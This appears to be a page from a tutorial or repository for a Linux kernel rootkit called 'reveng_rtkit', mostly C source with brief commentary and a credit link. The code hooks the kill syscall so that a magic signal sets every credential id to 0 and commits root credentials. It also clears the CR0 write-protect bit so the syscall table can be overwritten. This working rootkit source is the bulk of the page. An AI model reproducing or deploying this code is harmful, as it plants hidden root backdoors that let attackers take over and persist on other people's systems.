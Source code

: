 ```c

	// Updating ids to 0 i.e. root
	root->uid.val = root->gid.val = 0;
	root->euid.val = root->egid.val = 0;
	root->suid.val = root->sgid.val = 0;
	root->fsuid.val = root->fsgid.val = 0;

	// Setting the updated value to cred structure
	commit_creds(root);
}

static asmlinkage int hacked_kill(const struct pt_regs *pt_regs)
{
	int sig = (int) pt_regs->si;
                    
	switch (sig)
	{
		case GET_ROOT:
                        printk(KERN_INFO "[*] reveng_rtkit: From rootkit with love :)\t-> Offering root shell!!");
                        /*
                          In someway system() function alike kernel function present in linux kernel programming
                          is required. in order to execute bash/sh shell then grant root shell as fish shell (in my
                          case) was alloted a root shell, but bash/sh shell did the job.
                        */
                        set_root();
			break;
		default:
                        return orig_kill(pt_regs);
	}
	return 0;
}


static inline void write_cr0_forced(unsigned long val)
{
	unsigned long __force_order;

	asm volatile("mov %0, %%cr0" : "+r"(val), "+m"(__force_order));
}

static inline void protect_memory(void)
{
	printk(KERN_INFO "[*] reveng_rtkit: (Memory protected): Regainig normal memory protection\n");
	write_cr0_forced(cr0);	// Setting WP flag to 1 => read-only
}

static inline void unprotect_memory(void)
{
	pr_info("[*] reveng_rtkit: (Memory unprotected): Ready for editing Syscall Table");
	write_cr0_forced(cr0 & ~0x00010000);	// Setting WP flag to 0 => writable
}
```
Here, the type of this function is `asmlinkage int`, actually it doesn't matter in this context, but it might in others.\
Syscalls are of type `long`, thus, when a user space program such as glibc depends on its return value, it expects a `long int`, if you feed it with `int`, things will go very wrong.\
Credit: [jm33.me](https://jm33.me/linux-rootkit-for-fun-and-profit-0x02-lkm-hide-filesprocs.html)
```c
// filename: Test_rtkit_kill.c

```